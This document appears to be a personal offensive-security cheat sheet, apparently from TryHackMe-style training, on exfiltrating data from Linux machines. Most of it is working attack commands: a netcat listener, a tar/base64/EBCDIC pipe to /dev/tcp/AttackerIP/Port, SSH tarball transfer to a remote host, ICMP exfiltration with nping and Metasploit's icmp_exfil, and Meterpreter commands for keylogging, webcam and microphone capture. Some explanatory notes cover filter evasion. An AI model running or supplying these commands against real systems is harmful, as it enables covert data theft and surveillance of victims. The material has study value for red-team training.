


# Linux

## How to use Data Exfiltration

There are three primary use case scenarios of data exfiltration, including:

1. Exfiltrate data
2. Command and control communications.
3. Tunneling

Traditional Data Exfiltration

<figure><figcaption></figcaption></figure>

C2 Communications

<figure><figcaption></figcaption></figure>

Tunneling

<figure><figcaption></figcaption></figure>

## Python web server

Attacker computer

```bash
python -m SimpleHTTPServer 80 : use port that is not used  
```

```bash
python3 -m http.Server 80
```

Download from target

```bash
wget http://attackeraddress/filename   
```

## Metasploit commands

| Command                          | Function                                                 |
| -------------------------------- | -------------------------------------------------------- |
| `download /path/to/file`         | Downloads a specific file from the target                |
| `upload /local/file`             | Uploads a file to the target                             |
| `search -f *.docx`               | Finds files (e.g., `*.docx`, `*.xlsx`, `passwords.txt`)  |
| `cat /path/to/file`              | View file content inline                                 |
| `screenshot`                     | Take a screenshot of the user’s desktop                  |
| `keyscan_start` / `keyscan_dump` | Start and dump keystrokes                                |
| `record_mic` / `webcam_snap`     | Record audio or take webcam shots (if permissions allow) |

## TCP Exfiltration

Attacker Listener

<pre><code><strong>nc -lvnp -port- >  "filename we can set "
</strong></code></pre>

Sending to listener

```bash
tar zcf - directoryName | base 64 | dd conv=ebcdic> /dev/tcp/AttackerIP/Port
```

1️⃣ `tar zcf - directoryName`

* `tar` = archive utility.
* `z` = compress using gzip.
* `c` = create a new archive.
* `f -` = output to **stdout** (instead of a file).
* `directoryName` = the folder being archived.

**Effect:** This creates a compressed archive of `directoryName` and sends it **to stdout**.

***

2️⃣ `| base64`

* `base64` = encodes the binary tar.gz data into **ASCII text**.
* Why? Because sending raw binary over `/dev/tcp` might break if the network path expects text, and ASCII is safer.

***

3️⃣ `| dd conv=ebcdic`

* `dd` = low-level copy/convert tool.
* `conv=ebcdic` = converts the ASCII Base64 output to **EBCDIC encoding**.
* EBCDIC is an old IBM character encoding.
* Often seen in malware/obfuscation to bypass filters or legacy systems.

***

4️⃣ `> /dev/tcp/AttackerIP/Port`

* Bash allows redirecting output to **special TCP device**:
  * `/dev/tcp/IP/PORT` opens a TCP connection to that host and port.
* `>` = send all stdout (the EBCDIC-encoded Base64 archive) **directly to the attacker**.


Essenitly we zip the file we want to transfer.The data we transfer must be the directory


After recivied - Decode the data

```
dd conv=ascii if=FileName | base64 -d > FileName
```

Unzip

```bash
tar xvf fileName.tar
```

Examples

<figure><figcaption></figcaption></figure>

## SSH Exfiltration

Default

```bash
tar cf - task5/ | ssh user@ip "cd /tmp/; tar xpf -"
```

Custom Port

```bash
tar cf - FolderName/ | ssh -p 2222  user@ip "cd /tmp/; tar xpf -"
```

#### Step-by-step explanation:

1. **`tar cf - task5/`**
   * `tar` is used for creating and extracting archives.
   * `c` → **create** a new archive.
   * `f -` → output to **stdout** (the `-` means “write to standard output” instead of a file).
   * `task5/` → the folder you want to archive.
   * **Result:** a tarball of `task5/` is sent to stdout.
2. **`|` (pipe)**
   * This takes the stdout from the `tar` command (the archive data) and sends it as stdin to the next command.
3. **`ssh thm@jump.thm.com "cd /tmp/; tar xpf -"`**
   * `ssh thm@jump.thm.com` → connects to the remote host `jump.thm.com` as user `thm`.
   * `"cd /tmp/; tar xpf -"` → this is the command executed on the remote machine:
     * `cd /tmp/` → change directory to `/tmp/`.
     * `tar xpf -` → extract the archive received from stdin (`-` means stdin):
       * `x` → extract.
       * `p` → **preserve permissions**.
       * `f -` → read archive from stdin.

## ICMP Exfiltration

1\) Attacker setup  to recive packets

```
msf auxiliary icmp_exfil
```

2\) Upload nping binaries to victim

```
/usr/bin/nping
```

python server,wget command

next give perms&#x20;

3\) On victim machine sending data to icmp\_exfil

<pre class="language-bash"><code class="lang-bash"><strong>./nping --icmp -c 1 attackerip --data-string "filename.txt"
</strong></code></pre>

`-c` → how many ICMP packets (or TCP/UDP depending on mode) to send.Just how many times we want to send the request default is 10

4\) Tell metasploit to stop reciveing files

```
nping --icmp -c 1 attackerip --data-string "EOF"
```

## &#x20;Icmpdoor



<figure><figcaption></figcaption></figure>
